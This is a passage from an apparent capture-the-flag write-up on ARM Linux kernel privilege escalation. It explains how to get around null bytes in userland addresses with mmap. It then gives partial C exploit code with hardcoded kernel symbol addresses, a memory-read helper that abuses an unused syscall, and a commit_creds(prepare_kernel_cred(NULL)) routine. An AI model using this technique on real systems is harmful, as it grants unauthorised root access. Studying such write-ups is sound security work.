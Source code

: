 ### Userland functions contain null bytes
Ok, so why the above code snippet won't work? Well because userland .text is usually placed at the lower addresses and therefore we won't be able to copy an address of `userland_escalate` function into syscall table as it will almost for sure contain null bytes.

So how can we bypass this restriction? Well, we can use mmap force the system to allocate our escalate function at our address of choice. Of course now we will have to fill it with our shellcode. I didn't want to write every call by hand as it was first time I'm writing in arm assembly, so I decided to allocate space for bridge_function which will just pass the execution to my userland_escalate function.
The bridge function will be created dynamicaly will mmap + memcpy while userland_escalate could stay the same as above.

Full exploit:

```c
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <unistd.h>
#include <stdio.h>
#include <stdint.h>
#include <string.h>

#define COMMIT_CREDS ((void*) 0x8003f56c)
#define PREPARE_KERNEL_CREDS ((void*) 0x8003f924)
#define SYS_CALL_TABLE 0x8000e348
#define NR_SYS_UNUSED 223

typedef void* (*prepare_kernel_creds_func_t)(void* daemon);
typedef int (*commit_creds_func_t)(void *new);

#define prepare_kernel_creds_func(daemon) \
    (((prepare_kernel_creds_func_t) PREPARE_KERNEL_CREDS)(daemon))

#define commit_creds_func(new) \
    (((commit_creds_func_t)(COMMIT_CREDS))(new))

uint32_t read_dword(void *addr)
{
    int i;
    /* Allocate and clean memory to store read result. */
    char read_buf[0x1000];
    memset(read_buf, 0x0, sizeof(read_buf));

    size_t read_bytes = 0;
    do
    {
        /* Read memory till reaching null byte. */
        syscall(NR_SYS_UNUSED, addr + read_bytes, &read_buf[read_bytes]);
        /* Check how many bytes we have managed to read. */
        read_bytes = strlen(read_buf) + 1;
    } while (read_bytes < 4);

    /* We cannot revert sys_upper, so return value might be wrong. */

    return *((uint32_t *)read_buf);
}

long userland_escalate()
{
    commit_creds_func(prepare_kernel_creds_func(NULL));
    return 0;
}
```